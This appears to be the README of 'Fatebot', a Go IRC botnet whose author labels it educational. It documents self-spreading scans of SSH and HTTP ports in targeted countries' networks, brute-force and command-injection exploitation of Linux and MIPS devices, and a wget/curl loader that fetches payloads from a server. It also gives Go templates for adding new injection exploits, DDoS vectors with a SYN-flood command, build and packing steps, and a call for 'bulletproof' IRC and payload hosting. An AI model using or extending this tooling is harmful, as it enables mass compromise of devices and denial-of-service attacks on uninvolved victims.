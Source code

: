 <p align="center">
	<a href="https://github.com/boz3r/Fatebot">
		<img src="assets/Not my image, i just add Fate text.png" alt="fatebot" width="440" height="440">
	</a>
	<br>
	<a href="https://github.com/boz3r/Fatebot/blob/master/LICENSE">
		<img src="https://img.shields.io/badge/license-Unlicense-red?style=plastic">
	</a>
	<a href="https://github.com/boz3r/Fatebot/releases/tag/0.8.0">
    		<img src="https://img.shields.io/badge/version-v0.8.0-lightgrey?style=plastic">
	</a>
	<a href="https://go.dev/">
    		<img src="https://img.shields.io/badge/language-Go-red?style=plastic">
	</a>
	<a href="https://en.wikipedia.org/wiki/Linux">
    		<img src="https://img.shields.io/badge/platform-linux-lightgrey?style=plastic">
	</a>
  	</br>
</p>

<p align="center">
	<b><ins>⚠️ DISCLAIMER ⚠️</ins></b>
	<br>
	Bozer\Bulldozer (old name is R4bin) the author of Fatebot.
	<br>
	I have created this for education purpose only, the use of this software is your responsibility!!!
	<br>
</p>

---

# Spread Feature
Spread feature of this bot will scan on default SSH and HTTP port. Option about scan feature in this bot is scan on CN, HK, KR and BR network or you can do a random scan or even you can add you own mods, all of these is up to you. This bot will brute-force attack and exploit to the target device, server, etc that's run linux or using mips x32 architecture. The loader will use "wget" or "curl" as a default loader for download the payload from FTP server or any option any server type that you can host the payload not maintionly to be an FTP server.
	
	# How to add more scanner network (Create your own scan mod).
	
	1) Go to scanner.go file and add a new slice for your scan network.
	
		# Example:
			
			var ItalyNetwork = []string {
				"123.456", //123.456.0.0/16
			}
			
			# since v0.6.0 will be use only 16 bit of the ip range (I'm still confused about subnet mask lol).
			
	2) Go to header.go file and scroll down to the map name "ScanMap".
	3) Custom your key and value. The value of map is structure, so you need to call a value in "Bot" structure and fill it.
	
		# Example:
		
			"-it": {				 # This key will be the command of a network arg in "?scan" command. "it" is short form italy.
				scanNetwork: ItalyNetwork, 	 # Fill the "scanNetwork" that's a value of "Bot" structure. To your network slice.
				scanOptFull: "\"ITALY\"",	 # Add full name of the network for a report process.
				isRandom:    false,		 # Set "isRandom" to false because it's not a full random network.
			},
	
	4) Done... just save it.
	
# Add/Customize Exploit
The exploit that's use in this botnet mostly will be a command injection (tbh it's all of it lmao). You can add a new exploit if you want, but i recommend it to be an command injection vulnerability because you don't need to add or write anything more you just need to config it. I try to make the feature exploit easy and felxible to configuration much as i can. If the 2 examples down below is not enough you can see more example in "internal/exploit.go".
	
	#############################################################
	### Example 1 Incase that you want to add new HTTP header ###
	#############################################################
	
	func (b *Bot) CVE_someYear_newCVE1() {
		
		# If you add a post exploit, then customize it with a json.
		# Incase that your exploit need to inject on a post body just call an inject function --> b.inject("default or mips", true)
		
		
		# In this example will use default architecture so that's why we put "default" if your exploit use mips just put "mips".
		# Always put true because we are doing an exploit not scanning (The inject function has reused in the scanner function).
			
		newCVE1, _ := json.Marshal(map[string]string{
			"example":      "something",
			"example":      "something"+b.inject("default", true),
		})
		
		# This is just a http header customization.
		# Incase that your exploit need to inject on a header just doing the same with the body. 
		
		enewCVE1 := Exploit{
			exploitName:       "CVE_someYear_newCVE1",			# Customize exploit name for a report process.
			exploitMethod:     "POST",					# Which http method you will use for this exploit.
			exploitHeader:     "example/something",				# Customize http header.
			exploitBody:       convReader(newCVE1),				# Customize http body.
			exploitAgent:      "example"+b.inject("default", true),		# Customize http agent.
			exploitAccept:     "example",					# Customize http accept.
			exploitContType:   "example",					# Customize http content type.
			exploitConnection: "example",					# Customize http connection.
		}
		
		# If you want to add new header then just call it, like the example down below.
		
		_, newHeader := enewCVE1.setupExploit(b.tempIP)			# Use "enewCVE1" for calling Exploit structure function.
		newHeader.Header.Set("newHeader", "headerContent")		# Add new header (header, header_content).
		b.exploitLauncher(enewCVE1, newHeader)				# Launch the exploit by put the exploit strucutre and header in to "b.exploitLauncher(ourExploit, ourHeader)" function.
	}
	
	###################################################################
	### Example 2 Incase that you don't need to add new HTTP header ###
	###################################################################
	
	# This example is the same like the first example in term of header and body configs.
	
	func (b *Bot) CVE_someYear_newCVE2() {			
		newCVE2, _ := json.Marshal(map[string]string{
			"example":      "something",
			"example":      "something"+b.inject("default", true),
		})
		enewCVE2 := Exploit{
			exploitName:       "CVE_someYear_newCVE2",			# Customize exploit name for a report process.
			exploitMethod:     "POST",					# Which http method you will use for this exploit.
			exploitHeader:     "example/something",				# Customize http header.
			exploitBody:       convReader(newCVE2),				# Customize http body.
			exploitAgent:      "example"+b.inject("default", true),		# Customize http agent.
			exploitAccept:     "example",					# Customize http accept.
			exploitContType:   "example",					# Customize http content type.
			exploitConnection: "example",					# Customize http connection.
		}

		b.exploitLauncher(enewCVE2,  b.selfRequest(enewCVE2))		# In the first example you need to call "setupExploit" function but this example you don't need to call it.
										# Just call "exploitLauncher" function and in the second argument use "selfRequest" function instead of a newHeader value. 
										# Because we only use default header set and then put our exploit structure in to the "selfRequest" argument.
	}
	
# Attack Feature
Attack feature will play around with transport layer mostly, but also have an application and network layer too.
All of the attack vectors except "http" DDoS vectors will be random source port and windows size automatically but dst port will let bot herder config by them self.

	# tcp -syn 127.0.0.1 192.168.50.129 -r 100 //command that's used in this screenshot.

<img src="assets/synflood.png" alt="synflood, dos example">

# IRC Commands
	
	cat irc/commands.txt 
	
	# I have move irc commands from github repositories to commands.txt file.

# Build Payload

	chmod +x build.sh
	./build.sh <payload>
	
	# The bot system architecture is up to which payload you upload on your payload server.
	# If you upload x32 on you payload server, the bot that you have scaned will be only x32 arch.
	# The mips architecture is specific for doing an exploit only, so it doesn't count to the scan process!!!
	# To run the payload you need to run with root access!!!

# Requirements
<ul>
	<li>x2 Bulletproof IRC Server (Recommend x2 in case for handle a lot of connections or your server is a low spec)</li>
</ul>

<ul>
	<li>x1 Bulletproof IRC Backup Server (Optional)</li>
</ul>

<ul>
	<li>x1 Payload Hosting Server (If it is a bulletproof hosting. It will be great for your self)</li>
</ul>

<ul>
	<li>IRC Client</li>
</ul>

<ul>
	<li>Go Compiler</li>
</ul>

<ul>
	<li>UPX Packer</li>
</ul>

<ul>
	<li>Code\Text Editor</li>
</ul>
